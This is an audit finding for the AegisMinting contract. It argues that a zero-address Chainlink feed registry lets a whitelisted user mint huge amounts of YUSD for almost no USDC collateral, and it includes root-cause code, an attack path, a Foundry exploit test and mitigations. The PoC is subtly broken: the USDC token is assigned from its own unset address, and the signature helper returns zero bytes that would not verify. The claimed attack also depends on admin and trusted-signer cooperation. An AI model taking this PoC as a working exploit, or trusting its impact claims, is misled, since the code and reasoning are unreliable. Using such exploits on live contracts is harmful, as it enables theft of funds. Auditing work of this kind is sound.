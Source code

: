Short Sky Mallard

Medium

# Attacker will bypass checks to mint excessive YUSD with minimal collateral

### Summary

An uninitialized `_feedRegistry` (address 0) will cause a protocol economic collapse as an attacker will mint massive amounts of YUSD with negligible collateral by submitting orders with high yusdAmount

### Root Cause
```solidity
solidity
function _getAssetUSDPriceChainlink(address asset) internal view returns (uint256, uint8) {
    if (address(_feedRegistry) == address(0)) {
      return (0, 0);
    }

    (, int256 answer, , uint256 updatedAt, ) = _feedRegistry.latestRoundData(asset, Denominations.USD);
    require(answer > 0, "Invalid price");
    require(updatedAt >= block.timestamp - chainlinkAssetHeartbeat[asset], "Stale price");

    return (uint256(answer), _feedRegistry.decimals(asset, Denominations.USD));
  }
```

```solidity
 function _calculateMinYUSDAmount(address collateralAsset, uint256 collateralAmount, uint256 yusdAmount) internal view returns (uint256) {
    (uint256 chainlinkPrice, uint8 feedDecimals) = _getAssetUSDPriceChainlink(collateralAsset);
    if (chainlinkPrice == 0) {
      return yusdAmount;
    }

    uint256 chainlinkYUSDAmount = Math.mulDiv(
      collateralAmount * 10 ** (18 - IERC20Metadata(collateralAsset).decimals()),
      chainlinkPrice,
      10 ** feedDecimals
    );

    // Return smallest amount
    return Math.min(yusdAmount, chainlinkYUSDAmount);
  }
```
In [AegisMinting.sol#L805]’s `_getAssetUSDPriceChainlink` function, when `_feedRegistry` is 0, it returns (0, 0), This leads to [AegisMinting.sol#L735], where `_calculateMinYUSDAmount` to directly return the user-provided yusdAmount. This allows users to mint excessive YUSD with minimal collateral.

###  Internal Pre-conditions

1. _feedRegistry is set to the zero address.
2. mintPaused is false, allowing minting operations.
3. User’s userWallet passes the onlyWhitelisted check (whitelisted).
4. order.collateralAsset passes the onlySupportedAsset check (supported asset).
5. aegisConfig.trustedSigner() is set, and the attacker can obtain a valid signature.


### External Pre-conditions

No external protocol changes are required; the attack relies solely on the contract’s internal configuration (_feedRegistry being 0).


### Attack Path

1. Attacker constructs an Order struct with:
       - collateralAsset as a supported asset (e.g., USDC).
       - collateralAmount as a negligible amount (e.g., 1 USDC, worth 1 USD, or even 0.000001 USDC due to 6 
          decimals).
       - yusdAmount as an extremely high value (e.g., 1000000 YUSD).
       - Valid nonce and signature (provided by aegisConfig.trustedSigner()).
2. Attacker calls mint(order, signature), passing whitelist, asset, and signature checks.
3. _getAssetUSDPriceChainlink returns (0, 0) due to _feedRegistry being 0.
4. _calculateMinYUSDAmount directly returns order.yusdAmount (1000000 YUSD).
5. mint function mints 1000000 YUSD to the attacker’s userWallet, consuming only 1 USDC (or less) of collateral.


### Impact

The protocol suffers an economic collapse, with the attacker gaining massive amounts of YUSD (e.g., 1000000 YUSD) at negligible cost (e.g., 1 USDC or less), leading to YUSD over-issuance and system insolvency.

### PoC
```solidity
solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import "forge-std/Test.sol";
import "../contracts/AegisMinting.sol";
import "../contracts/YUSD.sol";
import "../contracts/AegisConfig.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract AegisMintingExploitTest is Test {
    AegisMinting minting;
    YUSD yusd;
    AegisConfig config;
    IERC20 usdc;
    address attacker = address(0x123);
    address trustedSigner = address(0x456);
    address admin = address(0x789);

    function setUp() public {
        // Deploy contracts
        yusd = new YUSD(admin);
        config = new AegisConfig(admin);
        minting = new AegisMinting(address(yusd), address(config));
        usdc = IERC20(address(usdc)); // USDC address

        // Set whitelist, supported asset, and trusted signer
        vm.startPrank(admin);
        config.setWhitelisted(attacker, true);
        config.setSupportedAsset(address(usdc), true);
        config.setTrustedSigner(trustedSigner);
        // Admin sets _feedRegistry to 0
        minting.setFeedRegistryAddress(FeedRegistryInterface(address(0)));
        vm.stopPrank();

        // Simulate minimal USDC balance
        deal(address(usdc), attacker, 1); // 0.000001 USDC (1 unit)
    }

    function testExploit() public {
        // Construct malicious order with minimal collateral
        OrderLib.Order memory order = OrderLib.Order({
            userWallet: attacker,
            collateralAsset: address(usdc),
            collateralAmount: 1, // 0.000001 USDC
            yusdAmount: 1000000 * 1e18, // 1000000 YUSD
            slippageAdjustedAmount: 1000000 * 1e18,
            orderType: OrderLib.OrderType.MINT,
            nonce: 1
        });

        // Simulate signature (assumes attacker obtains valid signature)
        bytes memory signature = getValidSignature(order, trustedSigner);

        // Attacker calls mint
        vm.prank(attacker);
        minting.mint(order, signature);

        // Verify attacker receives 1000000 YUSD
        assertEq(yusd.balanceOf(attacker), 1000000 * 1e18, "Attacker should receive 1000000 YUSD");
        assertEq(usdc.balanceOf(attacker), 0, "Attacker should spend 0.000001 USDC");
    }

    // Simulate signature generation (requires off-chain implementation)
    function getValidSignature(OrderLib.Order memory order, address signer) internal pure returns (bytes memory) {
        // Simplified example; actual requires EIP-712 signature
        return abi.encodePacked(bytes32(0), bytes32(0), uint8(27));
    }
}
```

### Mitigation

1. Modify `_getAssetUSDPriceChainlink` to prevent returning (0, 0) when `_feedRegistry` is 0.
2. Validate `_feedRegistry` in setFeedRegistryAddress to ensure it is non-zero and functional.
